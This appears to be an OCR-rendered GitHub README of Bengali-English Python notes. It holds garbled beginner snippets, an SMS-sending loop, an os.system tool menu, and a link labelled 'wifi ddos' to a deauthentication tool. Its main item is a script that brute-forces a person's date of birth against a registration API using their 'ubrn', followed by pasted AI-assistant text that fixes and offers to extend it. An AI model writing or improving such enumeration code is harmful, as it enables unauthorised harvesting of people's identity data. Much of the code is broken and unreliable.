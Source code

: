 # Python-lerne


##  যে কোনো স্থানে কোনো কিছু টাইপ করে নেওয়া।

nid=str(input(" what is the number :-- ")

dob=int(input(" what is the day:-) 

How to ----- ---- 
       ----- ----- 

       print(45*"-")

       





## কত গুলো sms সেন্ট করতে পারবো।


10=str(input(" WHAT is the amaunt")

2 টাই ব্যাবহার করতে পারব।

for i range (10) or

printe(str(i+1)+"Sent SmS")

## tool oftion add

import os

while True:

	os.system("clear") 
 
	print(" [1] frist tool \n [2] secant tool \n [3] thert tool")
 
	opt=str(input("what is the selet no:-- "))
	
if opt=="1":
	os.system("python3 1.py")
	
elif opt==2:
	os.system("python3 2.py")
	
elif opt==3:
	os.system("python3 3.py")
 
else:

print("[x] wrong valo inter")
  

## typing kote thakbr



# Iterating through possible date combinations
for year in range(start_year, end_year + 1):  # Using user input for year range
    for month in range(1, 13):  # Months 1-12
        for day in range(1, 32):  # Days 1-31 (handling invalid dates later)
            try:
                dob = f"{year:04d}-{month:02d}-{day:02d}"  # Formatting DOB
                payload = {"ubrn": ubrn, "dob": dob}

                response = requests.post(url, data=json.dumps(payload), headers=headers)
                response_data = response.json()

                response_code = response_data.get("responseCode")
                print(f"Trying DOB: {dob} -> Response Code: {response_code}")

                if response_code == 0:  # If response code is 0, stop execution
                    print("Response code is 0, stopping execution.")
                    exit()

                if response_code == "SUCCESS":  # Adjust based on actual success response
                    print(f"Valid DOB found: {dob}")
                    exit()  # Stop execution if a valid DOB is found

            except Exception as e:
                print(f"Error with DOB {dob}: {e}")
Improvements & Fixes:
Proper Indentation

Fixed incorrect indentation under except, avoiding syntax errors.
Stopping Execution on Response Code 0

If responseCode == 0, the script prints a message and stops immediately.
Stops on Successful DOB Match

If responseCode == "SUCCESS", execution stops.
Would you like to add date validation (e.g., handling February 30, leap years)?




## wifi ddos

https://github.com/flashnuke/wifi-deauth



